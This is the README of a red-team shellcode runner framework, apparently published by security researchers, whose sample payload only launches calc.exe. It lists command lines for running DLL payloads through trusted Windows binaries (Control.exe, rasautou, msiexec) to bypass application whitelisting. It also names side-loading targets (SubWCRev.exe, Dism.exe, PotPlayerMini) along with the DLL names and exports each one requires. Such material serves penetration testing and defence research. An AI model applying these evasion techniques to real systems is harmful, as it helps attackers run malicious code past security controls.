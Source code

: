 # DueDLLigence

Shellcode runner framework for application whitelisting bypasses and DLL side-loading. The shellcode included in this project spawns calc.exe.

Authors: Evan Pena (@evan_pena2003), Ruben Boonen (@FuzzySec), Casey Erikson (@EriksocSecurity), Brett Hawkins (@h4wkst3r)

If desired, change the injection type by modifying the following line to the appropriate injection type
<br>```public const ExecutionMethod method = ExecutionMethod.CreateThread;```

Running the DLL with the following legitimate exes 

## Application Whitelisting Bypasses. Lolbins

### Control.exe
Export: CPlApplet
Syntax: Rename compiled “dll” extension to “cpl” and just double click it!
<br>```Control.exe [cplfile]```
<br>```Rundll32.exe Shell32.dll, Control_RunDLL [cplfile]```

### Rasautou
Export: powershell
<br>```rasautou –d {dllpayload} –p powershell –a a –e e```

### Msiexec
Export: DllUnregisterServer
<br>```msiexec /z {full path to msiexec.dll}```

## DLL Side-Loading Binaries and Details
### Tortoise SVN (SubWCRev.exe)
DLL == "crshhndl.dll"; Arch == x64; OS == Win7 & 10;
<br>Exports: InitCrashHandler,SendReport,IsReadyToExit,SetCustomInfo,AddUserInfoToReport,RemoveUserInfoFromReport,AddFileToReport,RemoveFileFromReport,GetVersionFromApp,GetVersionFromFile

### Dism Image Servicing Utility (Dism.exe)
DLL == "DismCore.dll"; Arch == x64; OS == Win7 & 10;
<br>Export: DllGetClassObject

### PotPlayerMini
DLL == "PotPlayer.dll"; Arch == x86;
<br>Exports: PreprocessCmdLineExW,UninitPotPlayer,CreatePotPlayerExW,DestroyPotPlayer,SetPotPlayRegKeyW,RunPotPlayer

Credit for the DueDLLigence name goes to Paul Sanders (@saul_panders)
